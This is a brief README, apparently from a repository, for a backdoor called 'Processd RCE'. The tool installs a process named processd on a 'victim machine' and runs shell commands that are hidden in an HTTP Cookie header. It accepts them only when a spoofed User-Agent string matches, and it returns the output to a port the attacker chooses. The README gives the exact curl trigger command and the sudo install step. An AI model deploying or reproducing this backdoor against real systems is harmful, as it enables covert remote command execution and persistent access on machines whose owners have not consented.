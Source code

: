 ## Processd RCE

Creates a process called processd that runs a program that listens for commands hidden in the headers of an HTTP request:
- Cookie: The command to run
- Upgrade-Insecure_Requests: The local port to send command results to 

User Agent must match "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

Installation:

cd into this folder on victim machine and run `sudo ./install.sh`
